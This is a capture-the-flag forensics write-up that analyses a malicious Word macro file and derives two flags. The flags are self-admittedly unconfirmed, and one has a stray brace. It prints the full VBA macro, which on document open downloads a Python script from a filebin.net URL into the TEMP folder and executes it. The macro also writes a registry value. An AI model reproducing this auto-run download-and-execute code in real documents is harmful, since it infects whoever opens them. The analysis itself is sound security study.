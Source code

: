 # schmerz-1

**Flag:** `flag{fA3bDt}`

Extracting the filesystem from the `.ad1` file and going into the `C:\Users\challenge\Downloads` directory, we find a `.dotm` file. Running `olevba` on it, we get this

```vb
.
.
.
Sub RegistryEntry()
    Dim keyName As String
    Dim data As String
    Dim path As String
    Dim myWS As Object
    Dim stype As String
    Set myWS = VBA.CreateObject("WScript.Shell")

    path = "HKEY_CURRENT_USER\Software\Uninstall\"
    keyName = "Application"
    keyValue = "fA3bDt"
    stype = "REG_SZ"
    myWS.RegWrite path & keyName, keyValue, stype
End Sub

Sub DownloadAndOpenFile()
.
.
.
```

The value of the registry entry stored by the malicious macro seems to be `fA3bDt`. I can't confirm if this is correct as I couldn't find a writeup, but it most likely should be.

# schmerz-2

**Flag:** `flag{python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py"}`

The same macro also shows this:

```vb
Sub Document_Open()
    DownloadAndOpenFile
    RegistryEntry
End Sub
.
.
.
Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
End Sub
```

So we can see the first command that seems to run upon the document opening is


```vb
vbpythonPath & " " & Chr(34) & destinationPath & Chr(34)
```

and when you replace all variables with their values,

```py
python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py}"
```

As with the previous one, I have no clue if this is the correct flag since I couldn't find a writeup, but it should be.
